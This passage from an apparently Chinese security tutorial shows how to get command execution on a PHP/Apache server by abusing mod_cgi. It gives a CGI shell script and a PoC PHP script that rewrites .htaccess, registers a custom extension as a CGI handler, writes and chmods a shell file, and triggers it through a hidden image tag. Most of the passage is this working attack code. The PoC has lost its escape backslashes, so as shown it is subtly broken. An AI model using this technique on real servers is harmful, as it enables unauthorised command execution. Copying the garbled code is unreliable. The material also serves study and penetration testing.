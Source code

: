然后新建 shell.ant 文件，写入要执行的命令：

```php
#!/bin/sh
echo Content-type: text/html
echo ""
echo&&id
```

**注意：**这里讲下一个小坑，linux中CGI比较严格，上传后可能会发现状态码500，无法解析我们bash文件。因为我们的目标站点是linux环境，如果我们用(windows等)本地编辑器编写上传时编码不一致导致无法解析，所以我们可以在linux环境中编写并导出再上传。

![image-20210210110320568](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6210876a47ffb61bae707ab5bc13b395ed36221c.png)

此时我们的shell.xxx还不能执行，因为还没有权限，我们使用php的chmod()函数给其添加可执行权限：

![image-20210210110615071](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-c0fe627ecd45a898fb81db05bc3bf56b2db488c4.png)

最后访问shell.ant文件便可成功执行命令：

![image-20210210112421440](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-78bc50053ab1b827a117d4110655d6277ce2a9fe.png)

给出一个POC脚本：

```php
<?php
$cmd = "ls /"; //command to be executed
$shellfile = "#!/bin/bashn"; //using a shellscript
$shellfile .= "echo -ne "Content-Type: text/html\n\n"n"; //header is needed, otherwise a 500 error is thrown when there is output
$shellfile .= "$cmd"; //executing $cmd
function checkEnabled($text,$condition,$yes,$no) //this surely can be shorter
{
    echo "$text: " . ($condition ? $yes : $no) . "<br>n";
}
if (!isset($_GET['checked']))
{
    @file_put_contents('.htaccess', "nSetEnv HTACCESS on", FILE_APPEND); //Append it to a .htaccess file to see whether .htaccess is allowed
    header('Location: ' . $_SERVER['PHP_SELF'] . '?checked=true'); //execute the script again to see if the htaccess test worked
}
else
{
    $modcgi = in_array('mod_cgi', apache_get_modules()); // mod_cgi enabled?
    $writable = is_writable('.'); //current dir writable?
    $htaccess = !empty($_SERVER['HTACCESS']); //htaccess enabled?
        checkEnabled("Mod-Cgi enabled",$modcgi,"Yes","No");
        checkEnabled("Is writable",$writable,"Yes","No");
        checkEnabled("htaccess working",$htaccess,"Yes","No");
    if(!($modcgi && $writable && $htaccess))
    {
        echo "Error. All of the above must be true for the script to work!"; //abort if not
    }
    else
    {
        checkEnabled("Backing up .htaccess",copy(".htaccess",".htaccess.bak"),"Suceeded! Saved in .htaccess.bak","Failed!"); //make a backup, cause you never know.
        checkEnabled("Write .htaccess file",file_put_contents('.htaccess',"Options +ExecCGInAddHandler cgi-script .dizzle"),"Succeeded!","Failed!"); //.dizzle is a nice extension
        checkEnabled("Write shell file",file_put_contents('shell.dizzle',$shellfile),"Succeeded!","Failed!"); //write the file
        checkEnabled("Chmod 777",chmod("shell.dizzle",0777),"Succeeded!","Failed!"); //rwx
        echo "Executing the script now. Check your listener <img src = 'shell.dizzle' style = 'display:none;'>"; //call the script
    }
```